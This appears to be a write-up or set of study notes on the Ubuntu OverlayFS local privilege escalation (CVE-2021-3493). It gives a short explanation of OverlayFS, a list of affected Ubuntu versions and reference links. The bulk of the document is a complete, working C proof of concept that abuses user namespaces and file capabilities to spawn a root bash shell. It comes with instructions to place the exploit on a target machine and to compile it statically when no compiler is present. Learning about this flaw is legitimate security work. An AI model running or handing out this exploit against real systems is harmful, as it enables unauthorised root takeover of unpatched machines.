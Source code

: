 **What is OverlayFS?**

OverlayFS is a Linux kernel module that allows the system to combine several mount points into one, so that you can access all the files from each within one directory structure.

It's often used by live USBs, or some other specialist applications. One use is having a read only root file system, and another partition "overlayed" with that to allow applications to write to a temporary file system.

**Affected Versions**

- Ubuntu 20.10
- Ubuntu 20.04 LTS
- Ubuntu 18.04 LTS
- Ubuntu 16.04 LTS
- Ubuntu 14.04 ESM

---

### About the vuln

Recently, SSD-Disclosure released a proof of concept (and a great explanation) for an Ubuntu kernel exploit ([https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/)).  

This vulnerability is particularly serious, as overlayfs is a kernel module that is installed by default on Ubuntu 1804 Server.  
If the system is vulnerable, you can very easily escalate from any user to root, as long as you can run a binary.  
If there isn't a C compiler installed on the machine, you can compile the binary statically elsewhere and copy just the binary over.

Grab the source code for the exploit from [SSD-Disclosure here](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/) and save it as exploit.c on the target machine.

---

![[Pasted image 20240713170632.png]]

---

### Want to know more about OverlayFS?

[https://yagrebu.net/unix/rpi-overlay.md](https://yagrebu.net/unix/rpi-overlay.md) - Read only root file system with overlayfs to allow applications to run normally.

[https://wiki.archlinux.org/index.php/Overlay_filesystem](https://wiki.archlinux.org/index.php/Overlay_filesystem) - The Arch Wiki's page on OverlayFS (I don't use Arch BTW)

### Want to know more about this specific CVE?

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493) - Mitre's CVE entry for this vulnerability, which includes many further links.

[https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/)[](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/) - This is where we got the PoC code, and it explains the vulnerability very well.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>
//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);
#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"
static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}
static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}
static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;
    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);
    char buf[4096];
    ssize_t rd, wr;
    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }
        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }
    close(fi);
    close(fo);
}
static int exploit()
{
    char buf[4096];
    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);
    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);
    uid_t uid = getuid();
    gid_t gid = getgid();
    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");
    xwritefile("/proc/self/setgroups", "deny");
    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);
    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);
    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);
    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";
    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);
    return 0;
}
int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }
    pid_t child = fork();
    if (child == -1)
        err(1, "fork");
    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }
    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```

